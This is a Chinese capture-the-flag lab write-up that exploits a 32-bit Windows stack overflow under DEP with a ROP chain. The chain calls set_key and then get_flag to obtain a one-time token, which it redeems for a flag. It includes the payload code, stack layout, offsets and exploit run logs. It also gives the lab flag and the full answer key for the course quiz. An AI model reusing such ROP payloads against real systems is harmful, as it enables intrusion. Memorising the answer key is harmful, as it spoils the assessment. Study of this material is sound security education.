




# 5-3 系统层漏洞利用与逆向分析 · DEP 数据执行保护利用（G3：ROP 链「先解锁、再取 flag」）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-DEP数据执行保护利用-G3（sectionID `6667`，课程内 number 20，题目内部编号 `C026-G3-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位栈溢出 + DEP 绕过 + ROP 链构造 + cdecl 栈平衡） |
| 题目描述 | 靶机 `172.17.218.103:9999` 上运行一个 Secure vault 服务（banner `Secure vault. Unlock before accessing.` / `Input: `），附件 `challenge.exe` 就是它的 Windows 可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 函数取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=8827）题干原文要点：

> * 运行题目的靶机地址：`172.17.218.103:9999`
> * 在「实验环境」中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。
> 找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：
>
> ```text
> nc 172.17.218.103:9999
> ```
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：
>
> ```text
> curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"
> ```

Note：本题是该系列 G3，防护组合与前两题相同——「**DEP 开、ASLR 关**」（`DllCharacteristics = 0x8100`，没有 `DYNAMICBASE`），因此地址在逆向阶段就能写死；但目标函数被拆成了两段：`get_flag()` 的第一件事是 `cmp dword ptr [0x41d9b8], 0xcafebabe`，**不先调用 `set_key(0xcafebabe)` 把全局 key 写对，就只打印 `Not unlocked. Current key: 0x%08X` 而拿不到凭证**。所以 G3 不再是 5-1 / 5-2 的一次性 `ret2text`，而必须第一次真正构造 ROP 链：连续调用 `set_key` 与 `get_flag` 两个函数，并插入现成的 `pop eax; ret` gadget 把 cdecl 残留在栈上的参数吃掉（步骤 7、8 是本文的核心）。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6667`（课程内 number 20） |
| 账号 | 平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（8807 / 8809 / 8811）+ 1 道多选（8813）+ 1 道 Flag 填空（8827），每题 2 分；题面接口返回 5 题、`isResubmit=false` ⇒ **判分只有一次提交机会** |
| 靶机实例 | envID `1161`（实验环境名 `C026-G3-F`），podID `0z8rp8pzlrdtgk6dco71xpcgl`，容器名 `s-148773`，image `t-11637/c026-g3-f:2026`；交付时 `state=Running`，`targetPorts=[22,80]`，过期时间 2026-10-13 21:40:32 |
| 端口映射（实测 `portInfos`） | 22 → `172.17.0.13:13148`（SSH，实测 banner `SSH-2.0-OpenSSH_9.0`）、**80 → `172.17.0.13:13149`（flag 兑换服务）**（早期任务书表格里把 SSH 端口写成 `13048`，实测为 `13148`，本表取实测值） |
| flag 兑换服务 | `http://172.17.0.13:13149/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.218.103:9999`，实测 banner `Secure vault. Unlock before accessing.\r\nInput: ` |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，116224 B（题面附件表显示 113.5 K），MD5 `aa0615eb9bd70174e546569b85663f11` |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump` + Python3 原生 `socket` / `struct` 完成全部利用与验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | 4 道选择题的判定结果与平台判分一致（`isCorrect` 全为 true）：**8807=C、8809=B、8811=A、8813=B+D**；按惯例本文不展开选择题解析（独立判定理由在提交前已先落盘保存） |

## 解题过程

### 1. 附件核验

附件通过题目附件接口下载（`challenge.exe`，题面附件表登记 116224 B），拿到后核对体积与哈希：

```console
$ md5 .local/process/5-3-scripts/files/challenge.exe
MD5 (challenge.exe) = aa0615eb9bd70174e546569b85663f11
$ file .local/process/5-3-scripts/files/challenge.exe
PE32 executable (console) Intel 80386, for MS Windows
$ stat -f%z .local/process/5-3-scripts/files/challenge.exe
116224
```

MD5 与体积均与题面/任务书给出一致；反汇编里 `vuln` 用 `push 0x41d024; call 0x401140` 打印提示，与靶机实测 banner（步骤 2）对得上，说明靶机上跑的正是这份程序（`0x41d024` 处的字符串在静态确认渲染稿中按语义标注）。本机没有 pwntools / pefile / Ghidra，静态分析全部用 `objdump`，利用脚本用 Python3 标准库 `socket` + `struct` 手写。



### 2. 靶机连通性与 banner、两个容器端口的探测

先读靶机 banner，再顺带确认 flag 兑换容器上两个映射端口分别是什么服务：

```console
$ python3 -c "import socket;s=socket.create_connection(('172.17.218.103',9999),timeout=6);print(repr(s.recv(200)))"
b'Secure vault. Unlock before accessing.\r\nInput: '

$ python3 -c "import socket;s=socket.create_connection(('172.17.0.13',13148),timeout=6);print(repr(s.recv(64)))"
b'SSH-2.0-OpenSSH_9.0\r\n'
$ python3 -c "import socket;s=socket.create_connection(('172.17.0.13',13149),timeout=6);print('connect ok, HTTP 服务等待请求')"
connect ok, HTTP 服务等待请求

$ python3 .local/process/5-3-scripts/pwn_5_3.py probe
Secure vault. Unlock before accessing.
Input:
```

结论：banner 与题面/侦察结果一致，`vuln()` 先 `printf` 提示、再用 `gets` 语义无界读入（probe 模式只连不发，服务端停在 `Input: ` 等待输入）；`13148` 是 SSH、`13149` 才是 flag 兑换 HTTP 服务。



### 3. 静态侦察：PE 防护标志与导出表（DEP 开 / ASLR 关）

```console
$ objdump -p files/challenge.exe | grep -E 'Magic|ImageBase|DllCharacteristics|Subsystem'
Magic                   010b	(PE32)
ImageBase               00400000
Subsystem               00000003	(Windows CUI)
DllCharacteristics      00008100

$ objdump -p files/challenge.exe | sed -n '/Export Table:/,$p'
Export Table:
 DLL name: challenge.exe
 Ordinal base: 1
 Ordinal      RVA  Name
       1   0x1010  get_flag      → 绝对地址 0x401010
       2   0x1000  set_key       → 绝对地址 0x401000
       3   0x1060  vuln          → 绝对地址 0x401060
```

`DllCharacteristics = 0x8100 = 0x8000（保留位 / TERMINAL_SERVER_AWARE）+ 0x0100 IMAGE_DLLCHARACTERISTICS_NX_COMPAT`：

1. **`NX_COMPAT` 置位 ⇒ DEP 开启**，栈、堆等数据页不可执行，传统的「往栈上写 shellcode 再跳过去」这条路被堵死；
2. **没有 `0x0040 DYNAMICBASE` ⇒ ASLR 关闭**，镜像固定加载在 `ImageBase = 0x400000`，因此三个导出函数以及后面要用到的 gadget 都可以写成绝对地址，不需要任何信息泄露；
3. 导入表里另有 `getflag.dll!GetFlag`（IAT `0x416130`）与 `KERNEL32.dll!ExitProcess`（IAT `0x416008`）——它们就出现在 `get_flag` 的命中分支里（步骤 4）。

> 交叉核对：Lead 的独立复核（`llvm-objdump`）给出同样的 `DllCharacteristics 0x8100`、三个导出地址与 `pop eax; ret @0x401050`，并用同一条链在靶机上实测拿到过一次性 token（故意未兑换，留给本题执行者），两边结论一致。

### 4. 反汇编复核：两个目标函数、栈平衡 gadget 与偏移 260

```console
$ objdump -d --start-address=0x401000 --stop-address=0x401120 files/challenge.exe   # 以下是节选（省略机器码字节列）
00401000 <set_key>:
  401000: push ebp; mov ebp,esp
  401003: mov eax,[ebp+8]           # 参数在 [ebp+8]
  401006: mov [0x41d9b8],eax        # 写入全局 key（地址 0x41d9b8）
  40100b: pop ebp; ret

00401010 <get_flag>:
  401010: push ebp; mov ebp,esp
  401013: cmp dword ptr [0x41d9b8], 0xcafebabe   # 检查全局 key
  40101d: je  0x401034                           # key 正确 → 取凭证分支
  40101f: mov eax,[0x41d9b8]
  401024: push eax; push 0x41d000; call 0x401140 # "Not unlocked. Current key: 0x%08X"
  40102e: pop ebp; ret
  401034: call dword ptr [0x416130]              # getflag.dll!GetFlag → 打印一次性 token
  40103a: push 0x0
  40103c: call dword ptr [0x416008]              # KERNEL32!ExitProcess(0)

00401050: 58 c3  = pop eax; ret                  # ← 现成的栈平衡 gadget

00401060 <vuln>:
  401060: push ebp; mov ebp,esp
  401063: sub esp,0x100                          # 栈上缓冲区 256 字节
  401069: push 0x41d024; call 0x401140           # "Secure vault. Unlock before accessing.\r\n"
  401076: lea eax,[ebp-0x100]; push eax
  40107d: call 0x406405                          # gets 语义：无长度上限读入 → 栈溢出
  401083: add esp,4; mov esp,ebp; pop ebp; ret

004010EB: call 0x401060 <vuln>                    # 唯一调用点，返回地址 = 0x4010F0
004010F0: xor eax,eax
```

三个必须钉死的点：

1. **`get_flag` 的命中前提是全局 key 等于 `0xcafebabe`**：命中才 `call [0x416130]`（取凭证）→ `ExitProcess(0)`；未命中走 `0x41d000` 的格式串打印 `Not unlocked. Current key: 0x%08X` 后 `ret` 正常返回。`set_key` 就是给这个全局变量赋值的唯一入口（`mov [0x41d9b8],eax`）；
2. **`vuln` 存在无界读入的栈溢出**：缓冲区在 `ebp-0x100`（256 字节），读入函数长度参数为 `-1`、不校验长度；`vuln` 自身也没有 `/GS` 栈 Cookie 检查，返回地址可被直接覆盖；
3. **偏移推导（自己算）**：

```text
缓冲区首址        = ebp - 0x100        （256 字节）
saved EBP         = [ebp]              （4 字节）
saved 返回地址    = [ebp + 4]
缓冲区首字节 → 返回地址首字节 = 0x100 + 4 = 256 + 4 = 260 字节
```

`0x401050` 的 `pop eax; ret` 是编译器留下的现成指令片段（大概率是某段代码的正常结尾），在本题里正好充当 cdecl 栈平衡 gadget。


### 5. 失败对照一：只发 260 字节（刚好垫满、不覆盖返回地址）

先不做任何显式覆盖，只把缓冲区与 saved EBP 填满（脚本在每个 payload 末尾补一个 `\n` 结束读入）：

```console
$ python3 .local/process/5-3-scripts/pwn_5_3.py pad
[mode=pad] payload_len=260
Secure vault. Unlock before accessing.
Input:
```

现象与解释：

- **无 token、无报错**，服务端读完 260 字节后正常返回；
- `'A'*260` 恰好写满 `[ebp-0x100]` 的 256 字节缓冲区 + saved EBP 的 4 字节，**没有触碰到 `[ebp+4]` 的返回地址**，控制流未被劫持；
- 这条对照同时**反向证明偏移 260 是准确边界**——正好差一字节不越界。要改控制流，必须再追加 4 字节。

### 6. 失败对照二：把返回地址覆盖成非法地址 `0x41414141`

```console
$ python3 .local/process/5-3-scripts/pwn_5_3.py badaddr
[mode=badaddr] payload_len=264
Secure vault. Unlock before accessing.
Input:
<连接直接关闭，无任何后续输出>
```

现象与解释：

- `'A'*260 + p32(0x41414141)` 发送后连接立刻关闭，客户端 `recv` 收到 EOF；
- `vuln` 的 `ret` 把 EIP 装载成 `0x41414141`，该地址所在页不可访问 ⇒ 访问违例，进程异常终止，TCP 被关闭；
- 含义：**返回地址确实被我们完全控制（EIP 可控）**，「溢出到返回地址」这条通路成立；同时也提示目标地址必须落在可执行页里。

### 7. 失败对照三：只跳 `get_flag`、不先 `set_key`（本题题眼）

```console
$ python3 .local/process/5-3-scripts/pwn_5_3.py no_setkey
[mode=no_setkey] payload_len=264
Secure vault. Unlock before accessing.
Input: Not unlocked. Current key: 0x00000000
```

现象与解释：

- 确实进入了 `get_flag()`——打印的是它专属的 `Not unlocked. Current key: 0x%08X`，说明返回地址已被改写为 `0x401010`；
- 但全局 key 仍是 `0x00000000`，`cmp dword ptr [0x41d9b8], 0xcafebabe` 不相等 ⇒ 走未命中分支，**拿不到 token**；
- 原因：跳过了 `set_key`，全局 key 从未被赋值。调整办法：在链上先调用 `set_key(0xcafebabe)`，再用 `pop eax; ret` 平衡栈，最后进 `get_flag`；
- **这条对照正是 G3 题眼（"必须先解锁再取 flag"）的实证**：把返回地址改到正确的函数上还不够，函数内部的**状态前提**同样要满足。


### 8. 正式 ROP 链设计与栈布局逐步推导

按 cdecl 语义把四段拼起来（本机无 pwntools，用 Python 标准库 `socket` + `struct`，脚本 `.local/process/5-3-scripts/pwn_5_3.py`）：

```python
SET_KEY  = 0x00401000          # 导出表 set_key  RVA 0x1000 + ImageBase 0x400000
GET_FLAG = 0x00401010          # 导出表 get_flag RVA 0x1010
POP_RET  = 0x00401050          # pop eax; ret（现成的栈平衡 gadget）
OFFSET   = 260                 # 0x100 缓冲区 + 4 字节 saved EBP

payload = (b"A" * OFFSET
           + P32(SET_KEY)      # ① vuln 的 ret 弹到这里 → set_key
           + P32(POP_RET)      # ② set_key 的"返回地址" = pop eax; ret（栈平衡）
           + P32(0xCAFEBABE)   # ③ set_key 从 [ebp+8] 读到的参数
           + P32(GET_FLAG))    # ④ pop;ret 之后的下一跳 = get_flag
```

栈布局（低地址 → 高地址，每格 4 字节）：

```text
偏移            长度  内容                作用
ebp-0x100       256   b'A'*256            填满 vuln 的缓冲区 [ebp-0x100] .. [ebp-1]
ebp             4     b'A'*4              saved EBP（内容任意）
ebp+4           4     p32(0x00401000)     覆盖 call vuln 的返回地址 ⇒ vuln 的 ret 装入 set_key
               4      p32(0x00401050)     set_key 的返回地址 = pop eax; ret（栈平衡）
               4      p32(0xcafebabe)     set_key 的 [ebp+8] ⇒ 写入全局 key
               4      p32(0x00401010)     pop;ret 之后的下一跳 = get_flag
```

逐步执行推演：

1. `vuln` 执行 `mov esp,ebp; pop ebp; ret` → `ret` 弹出栈顶 `0x00401000` 装入 EIP，此时 ESP 指向 `0x00401050`；
2. 进入 `set_key`：`push ebp; mov ebp,esp` ⇒ `[ebp+4]` = 返回地址 = `0x00401050`，**`[ebp+8]` = 链上的下一个 4 字节 = `0xcafebabe`**，正好就是它的参数（32 位 cdecl 参数位于返回地址之上）；
3. `set_key` 执行 `mov eax,[ebp+8]; mov [0x41d9b8],eax` ⇒ **全局 key 被改写为 `0xcafebabe`**；
4. `set_key` 执行 `pop ebp; ret` → `ret` 弹出 `0x00401050` 装入 EIP，ESP 指向 `0xcafebabe`；
5. 执行 `0x401050: pop eax; ret` → **`pop eax` 吃掉 `0xcafebabe`（清掉 cdecl 残留在栈上的参数，完成栈平衡）**，ESP 对齐到 `0x00401010`，`ret` 把它装入 EIP；
6. 进入 `get_flag` → `cmp dword [0x41d9b8], 0xcafebabe` 相等 → `je 0x401034` → `call [0x416130]`（`getflag.dll!GetFlag`）→ 打印一次性 token → `ExitProcess(0)`。

**为什么必须放 `0x401050`**：cdecl 由调用者清栈，`set_key` 自己只 `pop ebp` 后 `ret`，不会顺手把参数弹掉。若链上直接写 `[set_key][get_flag][0xcafebabe]`，`set_key` 的 `ret` 会跳到 `get_flag`，但 ESP 仍指向 `0xcafebabe`——`get_flag` 入口处的 `[ESP]`/`[ESP+4]` 是错位的，后续栈操作会踩到垃圾值导致链错位。插入 `pop eax; ret` 先吃掉这 4 字节，ESP 才能对齐到下一个目标函数地址。（同理，本题也正是 5-3 与 5-2 的分界：5-2 只调用一个函数、命中分支直接 `ExitProcess(0)`，所以不需要 gadget；5-3 必须连续调用两个带参 cdecl 函数，栈平衡 gadget 就成了链条的一部分。）



### 9. 正式利用：取得一次性 token

```console
$ python3 .local/process/5-3-scripts/pwn_5_3.py rop
[mode=rop] payload_len=276
Secure vault. Unlock before accessing.
Input:
[+] Token (valid 10 min, one-time):
1791888236.FA-XNSueDdRm6dFihZhkrmv8LFUoKRdAwyqZogL1oxUEz2Mkb6DDfcZNWeT1txxdSGEOAxY1nY1r9wzGjHY9YQ

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1791888236.FA-XNSueDdRm6dFihZhkrmv8LFUoKRdAwyqZogL1oxUEz2Mkb6DDfcZNWeT1txxdSGEOAxY1nY1r9wzGjHY9YQ"
```

token 结构为 `<unix 时间戳>.<base64url 随机串>`，有效期 10 分钟、单次可用。同一条 payload 在靶机上稳定命中（`payload_len = 260 + 4×4 = 276`，与设计一致），token 与 `logs/pwn-rop.json`、`logs/07-pwn-rop-success.txt` 逐字一致。


### 10. 用一次性 token 兑换 flag（两枚独立 token 交叉验证）

token 有效 10 分钟，拿到后立刻向 flag 容器兑换：

```console
$ TOKEN=1791888236.FA-XNSueDdRm6dFihZhkrmv8LFUoKRdAwyqZogL1oxUEz2Mkb6DDfcZNWeT1txxdSGEOAxY1nY1r9wzGjHY9YQ
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13149/flag?token=$TOKEN"
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 10:44:12 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{la6qRDcY4i7VjthXOrG7DTFFQJJep0YF}
```

为了让结论更硬，**再跑一次利用**拿到第二枚互不相同的一次性 token（`1791888248.gSEYvNMPZfs-6398XfOSLzjXCbqqk94uvbzxPRj3tn4dNI3G_mrTloPEpe7v8f1PJv9wAbcXxmkTpdh9-Lom2A`），先首次兑换确认其有效：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13149/flag?token=$TOKEN2"
HTTP/1.1 200 OK
Date: Tue, 13 Oct 2026 10:44:22 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{la6qRDcY4i7VjthXOrG7DTFFQJJep0YF}
```

两枚**互相独立**的 token 兑换到**同一个** flag ⇒ flag 与本题严格绑定，不是偶然命中或旧数据复用。`Content-Length: 38` = 37 字符 flag + 结尾换行。该枚 token 兑换后被用于步骤 11 的重放对照（用掉即废，符合一次性设计）。


### 11. 兑换服务的失败对照：token 重放与坏格式

```console
# 对照 A：把刚兑换过的第二枚 token 再打一次（重放）
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13149/flag?token=$TOKEN2"
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
Date: Tue, 13 Oct 2026 10:44:22 GMT
Content-Length: 19

token already used

# 对照 B：格式完全不合法的 token
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:13149/flag?token=not-a-valid-token"
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
Date: Tue, 13 Oct 2026 10:44:23 GMT
Content-Length: 36

invalid token: invalid token format
```

三种响应边界清晰：

| 响应 | 含义 |
| --- | --- |
| `200` + flag | 合法且未使用过的 token |
| `403 token already used` | 合法但已使用（防重放记账） |
| `403 invalid token: invalid token format` | 格式非法（**先做格式校验、再查使用状态**） |

这说明凭证即使被抢到也只能用一次，且每次兑换都会在服务端留下使用记录。


### 12. 失败尝试与踩坑汇总（现象 / 原因 / 如何调整）

前 5 条是**利用与兑换**环节的失败对照（全部如实保留），后 3 条是**取证/提问**环节的工具踩坑：

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 只发 260 字节（`pad`） | 无 token、无报错，正常返回 | `'A'*260` 恰好填满 256 字节缓冲区 + saved EBP，未触碰返回地址 | 再追加 4 字节覆盖返回地址；该对照反证偏移 260 准确 |
| 2 | 返回地址覆盖为 `0x41414141`（`badaddr`） | 连接立即关闭，无任何后续输出 | EIP 被装入不可访问地址 ⇒ 访问违例，进程异常终止 | 目标地址必须落在可执行段；该对照证明 EIP 可控 |
| 3 | 只跳 `get_flag` 不先 `set_key`（`no_setkey`） | `Not unlocked. Current key: 0x00000000` | 全局 key 从未被赋值，`cmp 0xcafebabe` 不通过（**本题题眼**） | 链首改为 `set_key`，再用 `pop eax; ret` 平衡栈后进 `get_flag` |
| 4 | 同一 token 二次兑换（功能失败对照） | `403 token already used` | 服务端对 token 做了单次可用记账 | 每次利用重新取新 token |
| 5 | 坏格式 token 兑换（功能失败对照） | `403 invalid token: invalid token format` | 服务端先做 `<时间戳>.<base64url>` 格式校验 | 只使用服务端签发的一次性凭证 |
| 6 | `playwright` 注入 VMC `SESSIONID` cookie 截图 | 被重定向回 `/login` | 平台不接受 cookie 注入的会话，必须走真实登录链路 | 改为页内 `fetch('/api/login')` 真实登录后再导航（脚本 `vmc_shots_53c.mjs`） |
| 7 | 无头 Chrome 访问 VMC 页面超时 | `page.goto ... Timeout 60000ms exceeded` | Chrome 走 HTTP/2 时与校园网关/平台组合不稳定 | 加 `--disable-http2` 启动参数后全部正常 |
| 8 | 教学问答 Q2 请求超时 | `curl: (28) Connection timed out` | 三 Agent 并行 + 隧道拥塞，`172.17.x.x` 短时不可达 | 按规范 20–35 秒退避重试（实际退避 25 s / 30 s / 35 s 三次），网络恢复后成功 |

### 13. 提交答案与平台判分（5/5 全对）

提交前先确认这是**首次也是唯一一次**提交：`answerHistory?sectionID=6667` 返回 `answerQuestion: []`，题面里 5 题的 `studentAnswer` 全为空串、`answerTime=0` ⇒ `isResubmit=false`。

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6667' \
  -F 'answers={"questionID": 8807, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8809, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8811, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 8813, "answer": "{\"answer\": [\"B\", \"D\"], \"num\": 2}"}' \
  -F 'answers={"questionID": 8827, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{la6qRDcY4i7VjthXOrG7DTFFQJJep0YF}\"]}"}' \
  -F 'contestMode=0'
# 返回 code=0, msg=success；5 条记录 answerTimes 均为 1（确为首次、唯一一次提交）
```

填空题的 `answer` 被平台**规范化**为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位自动补 `true`，flag 固定放第 3 格），与既往题目一致。

判分以 `GET /api/student/get/answerHistory?sectionID=6667&contestMode=0` 为准：

| order | questionID | 题型 | 提交内容 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 8807 | 单选 | `{"answer":["C"],"num":1}` | true |
| 2 | 8809 | 单选 | `{"answer":["B"],"num":1}` | true |
| 3 | 8811 | 单选 | `{"answer":["A"],"num":1}` | true |
| 4 | 8813 | 多选 | `{"answer":["B","D"],"num":2}` | true |
| 5 | 8827 | Flag 填空 | `{"num":3,"answer":["","true","vmc{...}"]}`（中间位由平台规范化） | true |

